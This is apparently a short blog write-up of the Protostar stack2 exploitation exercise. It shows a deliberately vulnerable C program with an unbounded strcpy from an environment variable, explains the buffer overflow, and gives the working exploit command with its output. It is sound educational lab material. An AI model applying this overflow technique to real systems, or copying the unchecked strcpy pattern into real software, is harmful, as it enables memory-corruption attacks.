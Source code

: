 ```yaml
---
layout: post
title: "Protostar stack02 writeup"
tags: [protostar, pwn]
comments: false
---
```


We are given a source code for this challenge

```
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int main(int argc, char **argv)
{
  volatile int modified;
  char buffer[64];
  char *variable;

  variable = getenv("GREENIE");

  if(variable == NULL) {
      errx(1, "please set the GREENIE environment variable\n");
  }

  modified = 0;

  strcpy(buffer, variable);

  if(modified == 0x0d0a0d0a) {
      printf("you have correctly modified the variable\n");
  } else {
      printf("Try again, you got 0x%08x\n", modified);
  }

}
```

For this challenge, you just need to set up an environment variable that contains 64 A's + \x0a\x0d\x0a\x0d
then if you run the program, the program will get the values in teh environment variable using getenv, actually 
getenv gets the address not the actual value but because of that the source code is using pointer, it will save the value in. Which will then copy all of the values in by using strcpy and by overflowing buffer then putting \x0a\x0d\x0a\x0d which will be 0x0d0a0d0a and match the if statement.

```
root@protostar:/opt/protostar/bin# export GREENIE=$(python -c 'print "A"*64+"\x0a\x0d\x0a\x0d"')
root@protostar:/opt/protostar/bin# ./stack2
you have correctly modified the variable
```